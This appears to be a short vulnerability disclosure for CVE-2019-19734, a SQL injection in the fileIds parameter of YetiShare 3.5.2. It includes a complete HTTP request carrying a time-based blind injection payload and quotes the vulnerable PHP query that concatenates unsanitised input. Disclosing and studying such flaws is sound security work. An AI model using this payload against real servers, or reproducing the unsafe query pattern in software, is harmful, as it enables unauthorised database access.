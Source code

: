 # CVE-2019-19734
YetiShare SQL Injection in the fileIds parameter in _account_move_file_in_folder.ajax.php - v3.5.2. This can be exploited by a regular user via GET or POST request. Newer versions are not vulnerable to this however due to the fileIds array being casted to int before being used in the query.

# Example request
```
GET /_account_move_file_in_folder.ajax.php?folderId=2&fileIds%5B%5D=700)/**/AND/**/SLEEP(10 HTTP/1.1
Host: 192.168.0.62
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
DNT: 1
Connection: close
Referer: http://192.168.0.62/account_home.html
Cookie: filehosting=cj0e0cg8hm9ija6fgs6iirrbj7; jstree_open=%23-1%2C%231; jstree_load=; jstree_select=%231
```

# _account_move_file_in_folder.ajax.php, row 37, $fileIds
```
    $fileIds     = $_REQUEST['fileIds'];
    if(COUNT($fileIds))
    {
        $db->query('UPDATE file SET folderId '.($folderId==NULL?'= NULL':'= '.(int)$folderId).' WHERE id IN ('.implode(',',$fileIds).') AND userId = '.$Auth->id);
    }
```
